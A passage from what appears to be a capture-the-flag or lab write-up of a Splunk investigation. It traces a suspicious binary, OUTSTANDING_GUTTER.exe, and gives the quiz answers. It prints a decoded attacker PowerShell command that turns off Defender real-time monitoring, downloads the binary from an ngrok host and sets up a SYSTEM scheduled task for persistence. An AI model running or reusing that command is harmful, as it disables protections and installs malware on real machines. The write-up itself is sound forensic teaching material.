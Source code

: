 
<img width="588" height="904" alt="Screenshot (80)" src="https://github.com/user-attachments/assets/c154d332-9597-42f6-809c-fd0288312946" />

What immediately pops out is the file:
```
C:\Windows\Temp\OUTSTANDING_GUTTER.exe
```


### Q1: **Answer:** `OUTSTANDING_GUTTER.exe`


# 2. What is the address the binary was downloaded from? Add http:// to your answer & defang the URL

After identifying OUTSTANDING_GUTTER.exe as the suspicious binary created on May 16th, 2022, the next step was to trace its source.

Instead of relying on PowerShell script block logging (EventCode=4104), which wasn’t available in this case, I used process creation events:
```
index=* EventCode=1 "OUTSTANDING_GUTTER.exe" OR "powershell.exe"
```
<img width="1677" height="158" alt="Screenshot (81)" src="https://github.com/user-attachments/assets/0f37c889-4617-4e49-ae22-58f513169ce9" />

This search returned 21 events. From here, the most efficient next step was to inspect the CommandLine field across each entry. I looked for any string that stood out — particularly those containing long, encoded PowerShell commands, external URLs, or suspicious file paths.

It didn’t take long to spot an obfuscated download command tied to powershell.exe, which pointed to the binary being retrieved from an external source.

<img width="599" height="1019" alt="Screenshot (82)" src="https://github.com/user-attachments/assets/ac05b758-3160-4113-bf0b-d177f582bd9d" />

After sending this string through [CyberChef – The Cyber Swiss Army Knife](https://gchq.github.io/CyberChef/), we come up with the following:
```
Set-MpPreference -DisableRealtimeMonitoring $true;wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```
### Q2: **Answer:** `hxxp://886e-181-215-214-32[.]ngrok[.]io`

# 3. What Windows executable was used to download the suspicious binary? Enter full path.

We can simply find the answer to this question by looking at the field of the ParentImage or Image. 

<img width="1232" height="204" alt="Screenshot (84)" src="https://github.com/user-attachments/assets/865e4e17-67d8-400d-aa6b-ab9a21ebc466" />
### Q3: **Answer:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
